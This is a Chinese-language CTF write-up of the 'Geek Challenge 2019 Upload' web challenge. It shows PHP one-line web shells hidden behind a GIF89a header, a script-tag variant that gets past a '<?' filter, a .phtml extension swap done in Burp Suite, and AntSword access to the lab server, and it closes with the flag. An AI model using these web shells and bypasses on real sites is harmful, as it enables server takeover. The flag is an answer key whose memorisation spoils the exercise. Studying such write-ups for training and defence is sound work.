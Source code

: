 ```yaml
---
title: 极客大挑战 2019 Upload
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

打开靶机，看到的就是如此简简单单的文件上传入口，通常这种文件上传的就应该想到**一句话木马**，然后使用**蚁剑**获得靶机的操控权

![](https://p.sda1.dev/13/bb15d8379c77045d0f53ae2a835ae7b8/image.png)

!!! note "通常我们会这么写一句话木马"
    ```php
    <?php @eval($_POST['蚁剑连接密码']);?>
    ```

网页的标题名字叫`上传头像`，说明我最好伪造一个图片文件，把木马植入进去

## 图片木马

为什么要伪造 GIF 作为木马图片，因为文件头是固定的，如果你的文件头是 `GIF89a?`，那么你就是一张 GIF 图片（不论你后面跟着的是什么），所以我们就用最简单的方法制作一个 GIF 图片木马，以下是 `a.gif` 的代码

```php
GIF89a?
<?php @eval($_POST['attack']);?>
```

随后我们上传 `a.gif`，发现报错 `NO! HACKER! your file included '<?'`，说明他检测到了我木马文件中的 `<?php` 字段，那么我现在希望的是能绕过这个检测，这就需要 PHP 的另一种写法了

![](https://p.sda1.dev/13/cd365affb109724c4c785c059f3db2fa/image.png)

## 木马改进

除了使用 `<?php ?>` 的方式声明 PHP 代码，我们还能够使用传统的 JS 脚本声明方法，即 `<script lang="php"></script>`，这就能够绕过 `<?php` 的检测，以下是改进后的木马

```php
GIF89a?
<script lang="php">
    @eval($_POST['attack']);
</script>
```

我们把改进后的 `a.gif` 上传，发现上传已完成，但是 `.gif` 的格式摆脱不了被当成图片处理的本质，我们需要对后缀进行更改

![](https://p.sda1.dev/13/4235037389767da5dc5413f31a3e8b7a/image.png)

## 后缀更改

我们使用 Burp Suite 进行第二次上传，使用拦截模式提供的内嵌浏览器，将刚才的 `a.gif` 再一次上传，此时查看 Burp Suite 发现已经将 Http 请求拦截下来了

![](https://p.sda1.dev/13/abe920c6faaf9362e8497c31e8a05067/image.png)

在第 16 行有一个 `filename="a.gif"` ，我们直接点，把 `.gif` 改成 `.php`，并放行，发现报错

![](https://p.sda1.dev/13/ab210ba8d1012b18d62f1dd45eebfb0b/image.png)

说明我们不能很单纯地使用 `.php` 后缀，但是实际上不仅仅有 `.php` 后缀的文件才能被执行，我们可以使用变式后缀，例如 `.phtml`，打开的时候也会被当成 PHP 文件执行，于是我们更改 `filename="a.phtml"`，再次放行

![](https://p.sda1.dev/13/29d4bc4b071bb1912322896834a60496/image.png)

## 攻入靶机

发现文件已经成功上传，我们猜测保存在根目录，尝试访问 `/a.phtml`，发现不存在，再次猜测保存在 `/upload` 目录，尝试访问 `/upload/a.phtml`，发现能够访问，但是除了第一行的 `GIF89a?` 之外没有任何内容，此时是正常情况，我们已经可以利用蚁剑进行连接了，我们打开蚁剑，右键添加数据，按照如下图所示填写内容，连接密码即在一句话木马中，随后点击测试连接，提示连接成功，点击添加即可

![](https://p.sda1.dev/13/c06ea551e002ae398d235a923581fce2/image.png)

随后如下页面右键选择文件管理

![](https://p.sda1.dev/13/6d4407c792a5b3622afca08488f6bee7/image.png)

进入后直接往根目录去看，拉到底一下就发现了 `flag` 文件

![](https://p.sda1.dev/13/bb24c5cdb9de05545880c455bdf5c470/image.png)

点开就能看到 Flag 了，最终结果为 `flag{8cf43e2c-bfc7-4900-80d7-900ff5512f1a}`